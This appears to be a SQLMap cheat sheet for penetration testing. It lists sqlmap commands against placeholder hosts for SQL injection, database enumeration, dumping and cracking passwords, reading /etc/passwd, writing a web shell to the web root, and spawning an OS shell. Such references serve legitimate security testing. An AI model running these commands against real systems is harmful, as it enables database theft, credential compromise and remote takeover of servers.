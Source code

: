 
---

### **SQLMap General Commands**

|**Command**|**Description**|
|---|---|
|`sqlmap -h`|Display the basic help menu.|
|`sqlmap -hh`|Display the advanced help menu.|
|`sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`|Run SQLMap without requiring user input.|
|`sqlmap -r req.txt`|Use an HTTP request file for testing.|
|`sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`|Specify a cookie header.|
|`sqlmap -u www.target.com --data='id=1' --method PUT`|Specify a PUT request.|
|`sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`|Save traffic logs to a file.|
|`sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`|Set verbosity level (0-6).|
|`sqlmap --list-tampers`|List all available tamper scripts.|

---

### **SQL Injection Methods**

|**Command**|**Description**|
|---|---|
|`sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`|SQLMap with POST request.|
|`sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`|Specify injection point with an asterisk.|
|`sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`|Add a prefix or suffix to payloads.|

---

### **Database Enumeration**

|**Command**|**Description**|
|---|---|
|`sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`|Basic database enumeration.|
|`sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`|Enumerate tables in a specific database.|
|`sqlmap -u "http://www.example.com/?id=1" --schema`|Enumerate database schema.|
|`sqlmap -u "http://www.example.com/?id=1" --search -T user`|Search for specific data in the database.|

---

### **Data Extraction**

|**Command**|**Description**|
|---|---|
|`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`|Dump specific columns from a table.|
|`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`|Conditional data extraction.|
|`sqlmap -u "http://www.example.com/?id=1" --passwords --batch`|Dump and crack database passwords.|

---

### **Advanced Techniques**

| **Command**                                                                                                               | **Description**                       |
| ------------------------------------------------------------------------------------------------------------------------- | ------------------------------------- |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Bypass anti-CSRF tokens.              |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`                                                              | Check if the user has DBA privileges. |

---

### **File Operations**

|**Command**|**Description**|
|---|---|
|`sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`|Read a file from the target system.|
|`sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`|Write a file to the target system.|

---

### **Command Execution**

|**Command**|**Description**|
|---|---|
|`sqlmap -u "http://www.example.com/?id=1" --os-shell`|Spawn an OS shell on the target.|

---
